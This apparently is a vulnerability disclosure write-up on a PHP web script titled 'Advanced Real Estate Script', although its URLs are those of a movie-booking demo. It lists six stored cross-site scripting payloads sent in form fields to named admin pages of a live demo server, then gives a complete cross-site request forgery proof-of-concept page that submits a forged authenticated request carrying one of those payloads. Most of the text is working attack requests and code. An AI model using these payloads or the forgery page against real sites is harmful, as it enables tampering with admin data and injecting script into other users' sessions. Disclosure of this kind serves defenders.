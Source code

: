 ### Advanced Real Estate Script   XSS/CSRF

#### ADLab of Venustech


Well, when I pentest the official demo site of Advanced Real Estate Script, I found some vulnerabilities here.


#### XSS:

There're some stored-xss in this system, for example:

##### XSS1


```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/sitesettings.php
```

POST para:
```
------WebKitFormBoundaryzlMIDdRcppEeHLfc
Content-Disposition: form-data; name="keyword"

Movie Ticket booking'"><svg/onload=alert(/sxss/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss1.png)

##### XSS2

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/manageownerlist.php?edit&usrid=51
```
POST para:
```
------WebKitFormBoundaryl1hkCrSGo6aWqBcA
Content-Disposition: form-data; name="contact"

9500702882'"><svg/onload=alert(/sxss2/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss2.png)

##### XSS3

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/eventlist.php?edit&eventid=45
```

POST para:
```
------WebKitFormBoundaryMGILA7nm2cy2SRx1
Content-Disposition: form-data; name="cast"

sivakarthikeyan'"><svg/onload=prompt(/sxss3/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss3.png)

##### XSS4

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/movieedit.php?movieid=134
```

POST para:
```
------WebKitFormBoundarybSFVeH6LrfH6zOSG
Content-Disposition: form-data; name="moviename"

Tamizhan da Ennalum'"><svg/onload=alert(/sxss4/)><'"


```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss4.png)


##### XSS5

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/snacks_edit.php?sid=8
```


POST para:
```
------WebKitFormBoundaryfHHKnTbHD7iASd0w
Content-Disposition: form-data; name="snacks_name"

fsdfd'"><svg/onload=prompt(/sxss6/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss5.png)



##### XSS6

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/newsedit.php?newsid=7
```

POST para:
```
------WebKitFormBoundaryYD6kA6UVdLUiuSCp
Content-Disposition: form-data; name="newstitle"

News1'"><svg/onload=alert(/sxss7/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss6.png)


#### CSRF:

Because of no protection here, we can use csrf to attack users, or change something sensitively into the panel directly.
By the way ,I just found no protection in the user panel here.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/198.38.86.159\/~dineshkumarwork\/demo\/movie\/admin\/movieedit.php?movieid=134", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundarybSFVeH6LrfH6zOSG");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"moviename\"\r\n" + 
          "\r\n" + 
          "Tamizhan da Ennalum\'\"\x3e\x3csvg/onload=alert(/sxss4/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_id\"\r\n" + 
          "\r\n" + 
          "134\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_img\"\r\n" + 
          "\r\n" + 
          "movie06122017-688.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"ban_img\"\r\n" + 
          "\r\n" + 
          "banner06122017-395.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"language\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"actor\"\r\n" + 
          "\r\n" + 
          "vaishali, vaisnavi,\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"musicdirector\"\r\n" + 
          "\r\n" + 
          "Manimaran\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"director\"\r\n" + 
          "\r\n" + 
          "Vignesh\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"producer\"\r\n" + 
          "\r\n" + 
          "Winston\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runtime\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runmints\"\r\n" + 
          "\r\n" + 
          "6\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink\"\r\n" + 
          "\r\n" + 
          "www.phpscriptsmall.com\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink2\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3efds\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"rating\"\r\n" + 
          "\r\n" + 
          "U\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"movieimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"bannerimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"release_date\"\r\n" + 
          "\r\n" + 
          "2017-12-06\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"end_date\"\r\n" + 
          "\r\n" + 
          "2017-12-09\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>



```

